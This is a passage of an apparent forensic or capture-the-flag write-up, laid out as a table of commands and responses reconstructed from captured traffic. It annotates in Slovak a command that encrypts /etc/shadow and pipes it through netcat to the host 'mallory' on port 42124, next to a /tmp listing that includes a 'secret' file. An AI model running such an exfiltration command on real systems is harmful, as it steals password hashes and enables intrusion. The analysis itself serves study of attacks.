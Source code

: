 | 111953                | Response   | total 17M<br>drwxrwxrwt 1 root     root     4.0K Jul 16 08:07 .<br>drwxr-xr-x 1 root     root     4.0K Jul 16 08:05 ..<br>-rw-r--r-- 1 root     root      17M Jul 16 08:07 all.tgz<br>-rw------- 1 root     root      182 Jul 16 08:05 apache2-stderr---supervisor-gvzlqfqv.log<br>-rw------- 1 root     root        0 Jul 16 08:05 apache2-stdout---supervisor-l6ohlz0u.log<br>-rw-r--r-- 1 www-data www-data  46K Jul 16 08:07 html.tgz<br>-rw------- 1 root     root        0 Jul 16 08:05 mysqld_safe-stderr---supervisor-g6ruwbqj.log<br>-rw------- 1 root     root      135 Jul 16 08:05 mysqld_safe-stdout---supervisor-lct36jfa.log<br>drwxr-xr-x 2 root     root     4.0K Jul 16 08:05 output<br>-rw------- 1 root     root      131 Jul 16 08:05 pcap-stderr---supervisor-cl8n5_cp.log<br>-rw------- 1 root     root        0 Jul 16 08:05 pcap-stdout---supervisor-qrq22yby.log<br>-rw-r--r-- 1 root     root        6 Jul 16 08:07 secret                                                                                                                                                                                                                                                                                                                                        |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 111985                | Command    | cat /etc/shadow \| openssl enc -aes-256-cbc -e -a -salt -pbkdf2 -iter 10 -pass file:/tmp/secret \| nc mallory 42124<br>(útočnik zašifroval pinkódom súbor /etc/shadow a exfiltroval na port 42124)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 111993                | Response   |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |